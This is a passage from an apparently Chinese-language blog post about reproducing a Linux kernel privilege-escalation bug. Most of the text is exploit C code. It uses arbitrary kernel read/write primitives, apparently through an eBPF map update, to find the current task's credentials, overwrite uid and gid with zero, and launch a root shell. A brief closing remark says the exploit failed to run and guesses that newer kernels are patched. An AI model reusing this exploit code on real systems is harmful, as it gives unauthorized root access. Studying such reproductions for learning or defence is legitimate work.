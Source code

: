     static void __write(uint64_t addr, uint64_t val) {
    	__update_elem(2, addr, val);
    }
    
    static uint64_t get_sp(uint64_t addr) {
    	return addr & ~(0x4000 - 1);
    }
    
    static void pwn(void) {
    	uint64_t fp, sp, task_struct, credptr, uidptr;
    
    	fp = __get_fp();
    	if (fp < PHYS_OFFSET)
    		__exit("bogus fp");
    	
    	sp = get_sp(fp);
    	if (sp < PHYS_OFFSET)
    		__exit("bogus sp");
    	
    	task_struct = __read(sp);
    
    	if (task_struct < PHYS_OFFSET)
    		__exit("bogus task ptr");
    
    	printf("task_struct = %lx\n", task_struct);
    
    	credptr = __read(task_struct + CRED_OFFSET); // cred
    
    	if (credptr < PHYS_OFFSET)
    		__exit("bogus cred ptr");
    
    	uidptr = credptr + UID_OFFSET; // uid
    	if (uidptr < PHYS_OFFSET)
    		__exit("bogus uid ptr");
    
    	printf("uidptr = %lx\n", uidptr);
    	__write(uidptr, 0); // set both uid and gid to 0
    
    	if (getuid() == 0) {
    		printf("spawning root shell\n");
    		system("/bin/bash");
    		exit(0);
    	}
    
    	__exit("not vulnerable?");
    }
    
    int main(int argc, char **argv) {
    	prep();
    	pwn();
    
    	return 0;
    }

但是编译执行的时候出现问题
![](https://i.loli.net/2018/10/05/5bb6d1bf4fde5.png)
看了看网上其他人的复现，多数采用的内核都是4.4，可能老版本的问题已经修复了？就顺便学习一下切换内核的操作吧。
